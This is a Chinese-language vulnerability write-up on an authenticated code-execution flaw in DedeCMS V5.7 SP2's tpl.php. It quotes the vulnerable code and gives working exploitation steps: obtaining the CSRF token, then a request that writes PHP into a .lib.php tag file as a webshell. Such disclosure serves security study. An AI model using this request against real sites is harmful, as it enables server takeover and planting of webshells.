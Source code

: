 # DedeCMS V5.7 SP2后台存在代码执行漏洞

## 影响版本

DedeCMS V5.7 SP2

## 漏洞简介

织梦内容管理系统(Dedecms)是一款PHP开源网站管理系统。Dedecms V5.7 SP2版本中的tpl.php中存在代码执行漏洞,可以通过该漏洞在增加新标签中上传木马,获取webshell。该漏洞利用需要登录后台,并且后台的账户权限是管理员权限。


## 漏洞详情

默认后台地址 `/dede/`，文件 `dede/tpl.php` 中的251到281行。


	csrf_check();
		#filename和前面正则的匹配情况
	    if(!preg_match("#^[a-z0-9_-]{1,}\.lib\.php$#i", $filename))
	    {
	        ShowMsg('文件名不合法，不允许进行操作！', '-1');
	        exit();
	    }
	    require_once(DEDEINC.'/oxwindow.class.php');
		#搜索filename中匹配`\.lib\.php$#i`的部分，以空格代替
	    $tagname = preg_replace("#\.lib\.php$#i", "", $filename);
		#去掉反斜号
	    $content = stripslashes($content);
		#拼接文件名
	    $truefile = DEDEINC.'/taglib/'.$filename;
		#写入内容
	    $fp = fopen($truefile, 'w');
	    fwrite($fp, $content);
	    fclose($fp);

replace处理之后赋值给变量 $tagname 。但是写入文件的时候并没有用到$tagname 。
那为什么有这个$tagname，拼接文件名的时候，应该是拼接`tagname`

利用

	1.由于dedecms全局变量注册的特性，所以这里的content变量和filename变量可控。
	
	2.可以看到将content直接写入到文件中导致可以getshell。但是这里的文件名经过正则表达式，所以必须要.lib.php结尾。
	
	3.这里还有一个csrf_check()函数，即请求中必须要带token参数。


#### 漏洞利用

1. 首先获取`token`。访问域名 + `/dede/tpl.php?action=upload`

	http://127.0.0.1/uploads/dede/tpl.php?action=upload

	通过查看页面源码即可获得 token

![token](DedeCMS%20V5.7%20SP2%E5%90%8E%E5%8F%B0%E5%AD%98%E5%9C%A8%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/token.png)

2.然后访问 

	http://127.0.0.1/dede/tpl.php?filename=secnote.lib.php&action=savetagfile&content=<?php phpinfo();?>&token=你的token值



shell 地址

	http://127.0.0.1/include/taglib/secnote.lib.php

![1](DedeCMS%20V5.7%20SP2%E5%90%8E%E5%8F%B0%E5%AD%98%E5%9C%A8%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/1.png)


## 参考来源

DedeCMS V5.7 SP2后台存在代码执行漏洞：http://www.freebuf.com/vuls/164035.html

Dede CMS 下载中心：http://www.dedecms.com/products/dedecms/downloads/